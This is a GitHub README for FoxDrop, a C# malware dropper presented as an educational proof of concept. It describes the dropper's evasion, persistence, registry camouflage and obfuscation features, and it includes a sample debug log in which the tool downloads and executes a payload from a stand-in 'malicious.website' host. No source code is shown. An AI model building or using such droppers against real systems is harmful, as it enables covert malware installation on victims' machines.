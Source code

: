 <center> <img src="https://cdn.lypd0.com/FoxDrop/logo.png"> </center>


<h1 align="center">FoxDrop - A Malware Dropper Proof-of-Concept</h1>
<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>
<h3 align="center">Usage on unauthorized systems is strictly forbidden</h3>

## Overview
FoxDrop is an educational proof-of-concept (PoC) malware dropper designed to illustrate the functionality of a dropper and its potential impact on a system. This project aims to provide insights into malware behavior, showcasing how droppers can silently infiltrate systems, execute payloads, and maintain persistence.

## Features
FoxDrop offers a range of features, including but not limited to:

- **Stealthy Execution**: FoxDrop operates discreetly, avoiding detection by traditional security measures.
- **Persistence**: It ensures its presence on the system by adding a run policy for execution on system reboot.
- **Dynamic Payload Retrieval**: FoxDrop fetches payloads from specified URLs, allowing for flexible and adaptable malware behavior.
- **Registry Manipulation**: To evade detection, FoxDrop creates decoy registry keys, camouflaging its activities.
- **Payload Integrity Checks**: FoxDrop hashes downloaded payloads and compares them to stored hashes to prevent re-execution.
- **Obfuscation Techniques**: FoxDrop supports Base64 decoding, adding an additional layer of obfuscation to its operation.

## Usage
Using FoxDrop for educational purposes involves several steps:
1. **Compilation**: Compile the provided source code using a C# compiler to generate the executable binary.
2. **Execution**: Execute the compiled binary on a target system to observe its behavior.
3. **Customization**: Customize the payload download URLs and other variables in the source code for experimentation.

## Disclaimer
FoxDrop is intended for educational purposes only. The author does not endorse or encourage any illegal or malicious use of this software. Any misuse or unethical use of FoxDrop is strictly prohibited.

## Author
FoxDrop is developed by Luigi Fiore, also known as lypd0. Luigi is passionate about cybersecurity education and aims to raise awareness about malware threats.

## License
This project is licensed under the MIT License, allowing for exploration, modification, and distribution. Refer to the [LICENSE](LICENSE) file for detailed licensing terms.

## Troubleshooting and Debugging
FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior. These features provide insights into FoxDrop's configuration and highlight any potential issues that may affect its operation.

FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior:
```cpp
[╒═■] Build Information: 
[├] Assembly Info: FoxDrop, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
[├] Execution Path: C:\Path\To\FoxDrop.exe
[└] Polymorphic Seed: 8bc8f9bfb6b6a42640a37dcf9aa9a22b

[*] Performing Checks... 
· Polymorphism Disabled, Checking static name ... OK.
· Checking Delay ... OK.

Press ENTER to exit.
```

## Debug Log
During execution, FoxDrop logs debug information to provide visibility into its operations. This debug log offers detailed information about FoxDrop's actions, facilitating analysis and comprehension of its behavior.

```cpp
[*] Waiting 300000 ms ...
[*] First execution on system: TRUE.
[*] Folder "92cbea44" created in the Registry.
[*] Created BEA key.
[*] Created "ShortcutName" key with value "Windows Audio Device Graph Isolation".
[*] Created "Path" key with value "C:\Windows\System32\audiodg.exe".
[*] Reading content from "https://pastebin.com/raw/b4SYNyAT".
[*] Loaded following data: "https://malicious.website/malware.exe;C:\Users\User\Downloads\malware.exe".
[*] Downloading & executing payload from "https://malicious.website/malware.exe"
[*] Downloaded payload to C:\Users\User\Downloads\malware.exe
[*] Payload started from C:\Users\User\Downloads\malware.exe
[*] Payload hash (md5) added to list to prevent re-execution.
```

## Conclusion
FoxDrop serves as a valuable educational tool for understanding malware droppers and their implications. By exploring its features and behavior, users can gain insights into malware tactics and enhance their cybersecurity knowledge and defenses.
